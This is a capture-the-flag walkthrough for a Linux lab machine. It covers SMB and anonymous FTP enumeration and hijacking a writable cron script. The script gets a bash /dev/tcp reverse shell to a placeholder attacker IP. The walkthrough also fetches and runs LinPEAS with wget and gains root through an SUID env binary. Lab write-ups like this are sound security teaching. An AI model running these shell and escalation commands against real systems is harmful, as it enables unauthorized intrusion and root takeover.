

# Enumeration

An initial nmap scan reveals that ports 21, 22, 139, and 445 are open. We follow up with a detailed scan of each of these ports.

Let's enumerate SMB.  We can use SMBmap to quickly get a list of SMB shares; note that we have read only access to one of them.

Use SMB client to gain access to the share (just press enter when prompted for a password).

Besides a couple of dog pictures, nothing else seems to be on this share. The only other service we discovered was FTP, and we know from our nmap scan that anonymous login is allowed (just press enter for the password). Let's look around.

We find a single directory named "scripts" which contains a bash script, a log and a text file. Transfer the files over to the local machine using `get`. The text file is just a reminder to disable anonymous login (oops). We determine from the .sh and .log file that the script is a cleanup script; the log entries all indicate that nothing has been deleted so far. The script seems to check for files in the `/tmp/` directory and deletes them if necessary. Note that we have read, write and execute permissions for this script.

 

# Exploitation

The shell script we found earlier looks very much like a cron job. Since we have full rwx permissions for the script, we can attempt to replace it with a script of our choosing and wait for it to be executed. We still need initial access, so we will edit the `clean.sh` file and append its contents with `bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1` (which I found from [this useful page](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)). We then set up a netcat listener to catch the reverse shell.

After editing the reverse shell script with our attacker IP and a port of our choosing, we append the reverse shell script to the target's FTP server using `curl ftp://<target IP>/scripts/clean.sh --upload-file clean.sh --append`. Now set up a netcat listener on the appropriate port, and wait for the shell to execute. This will give us initial access to the target machine.

Looking around, we quickly find the user flag.

 

# Post-exploitation

We begin looking for methods to escalate our privileges. Let's use LinPEAS to try and find an avenue for privesc. Within the directory containing the `linpeas.sh` file, host a web server on the attacking machine with `python3 -m http.server`. On the target machine, cd into the `/tmp/` directory, download LinPEAS with `wget http://<attacker IP>:8000/linPEAS.sh`, and use `chmod +x linpeas.sh` to make the file executable. Now run LinPEAS with `./linpeas.sh`.

In the SUID section of the LinPEAS output, we find something interesting:

Note: We can also run `find / -type f -perm -u=s 2>/dev/null` to look for binaries with the SUID bit set, although LinPEAS highlights potentially useful binaries.

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid), we see that we can use the env binary to escalate privileges when the SUID bit is set (which is the case for us). If we simply use `./env /bin/sh -p` in the directory containing the env binary, we break out of our user shell and spawn a root shell. We then quickly find the root flag.

